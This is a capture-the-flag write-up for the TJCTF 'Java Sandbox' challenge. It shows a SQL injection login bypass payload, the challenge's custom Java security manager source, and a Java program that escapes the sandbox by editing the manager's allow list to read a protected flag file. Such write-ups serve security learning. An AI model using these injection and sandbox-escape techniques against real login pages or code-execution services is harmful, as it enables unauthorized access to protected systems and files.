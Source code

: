 # Java Sandbox (100 pts)

---

## Problem
Everyone's heard of python jail escapes, but what about Java? [Java Sandbox](http://javasandbox.p.tjctf.org/)

---

## Solution
At first, we are presented with a login portal. We try a random username and password, and a message in the corner appears to try MySQL injection.

We then login successfully with the username `' or ''='` and password `' or ''='`

At this point we reach a page where we can type, then submit a java program to compile and run it. In the security page, we are told that the flag resides at `/var/www/flag.txt`. We created a small java program to attempt to read this flag:

```
import java.io.BufferedReader;
import java.io.FileReader;

public class Main {
    public static void main(String[] args) throws Exception {
        BufferedReader read = new BufferedReader(new FileReader("/var/www/flag.txt"));
        System.out.println(read.readLine());
    }
}
```

However, when we submit this program, we get an error message saying that access was denied by the security manager, and we don't have permissions to read it.

We then see that source for the custom security manager and the program wrapper is available on the security page as well:

```
import java.lang.reflect.Method;
import java.security.Permission;
import java.util.ArrayList;
import java.util.Arrays;
class CustomSecurityManager extends SecurityManager {
    ArrayList<String> allow;
    String insecureClassName;
    String[] allowedLibraries = new String[] {"com.google","twitter4j","com.securefiledownloader"};
    public CustomSecurityManager(String className, String[] allowed) {
        insecureClassName = className;
        allow = new ArrayList<String>(Arrays.asList(allowed));
        // allow standard jre libraries
        allow.add(System.getProperty("java.home"));
    }

    public boolean checkAllow(String str) {
        for (String i : allow) {
            if (str.startsWith(i))
                return true;
        }
        return false;
    }

    public boolean isLibrary() {
        StackTraceElement[] stack = Thread.currentThread().getStackTrace();
        for (StackTraceElement s : stack) {
            // reached end
            if ((""+s).startsWith("Wrapper") || (""+s).startsWith(insecureClassName)) {
                return false;
            }
            // pass cases that obviously aren't libraries
            if ((""+s).startsWith("CustomSecurityManager") || (""+s).startsWith("java.") || (""+s).startsWith("sun.")) {
                continue;
            }
            for (String x : allowedLibraries) {
                if ((""+s).startsWith(x)) {
                    return true;
                }
            }
        }
        return false;
    }

    @Override
    public void checkPermission(Permission perm) {
        if (perm instanceof java.io.FilePermission) {
            if (!perm.getActions().equals("read")) {
                throw new SecurityException(""+perm);
            }
            // allow trusted libraries to access files
            if (!isLibrary()) {
                if (!checkAllow(perm.getName())) {
                    throw new SecurityException("File access denied! "+perm);
                }
            }
        }
        else if (perm instanceof java.net.SocketPermission || perm instanceof java.net.NetPermission || perm instanceof javax.net.ssl.SSLPermission) {
            // allow trusted libraries to access the internet
            if (!isLibrary()) {
                // need this to create URLs
                if (!perm.getName().equals("specifyStreamHandler")) {
                    throw new SecurityException("Socket access denied! "+perm);
                }
            }
        }
        else if (perm instanceof java.lang.RuntimePermission) {
            if (perm.getName().equals("setSecurityManager") || perm.getName().equals("createSecurityManager")) {
                throw new SecurityException("Nope! "+perm);
            }
            if (perm.getName().equals("createClassLoader") || perm.getName().equals("preferences")) {
                throw new SecurityException("Nah... "+perm);
            }
            if (perm.getName().equals("queuePrintJob")) {
                throw new SecurityException("Why... "+perm);
            }
        }
        else if (perm instanceof java.security.SecurityPermission) {
            throw new SecurityException("Permission denied! "+perm);
        }
        else if (perm instanceof java.sql.SQLPermission || perm instanceof java.util.logging.LoggingPermission || perm instanceof java.awt.AWTPermission) {
            // just in case...
            throw new SecurityException("Permission denied! "+perm);
        }
        // i think thats everything
    }
}

import java.lang.reflect.Method;
public class Wrapper {
    public static void main(String[] args) {
        args[0] = "Main";
        // args[0] is the name of the class to run
        // args[1] is a colon separated list of directories your program can access
        System.setSecurityManager(new CustomSecurityManager(args[0], args[1].split(":")));
        try {
            Class<?> unsafeClass = ClassLoader.getSystemClassLoader().loadClass(args[0]);
            Method m = unsafeClass.getMethod("main", String[].class);
            m.invoke(null, new Object[] {new String[] {}});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Upon analysing this, we see that access to the file is restricted because its path is not in the `allow` list.

From the wrapper class, we see that CustomSecurityManager is in the same namespace as where "Main" (the uploaded class) is located. This means we can reference the CustomSecurityManager directly.

We then run the following code and successfully read the flag:
```
import java.io.BufferedReader;
import java.io.FileReader;
import java.util.List;
public class Main {
    public static void main(String[] args) throws Exception {
        CustomSecurityManager csm = (CustomSecurityManager)System.getSecurityManager(); //get instance of the CustomSecurityManager class
        System.out.println(csm.allow);
        List<String> allow = csm.allow; //add to the allow list
        allow.add("/var/www/flag.txt");
        System.out.println(allow);
        BufferedReader read = new BufferedReader(new FileReader("/var/www/flag.txt"));
        System.out.println(read.readLine());
    }
}
```

---

## Flag
`tjctf{j4V4_R3FL3C710n_15_7R1CkY}`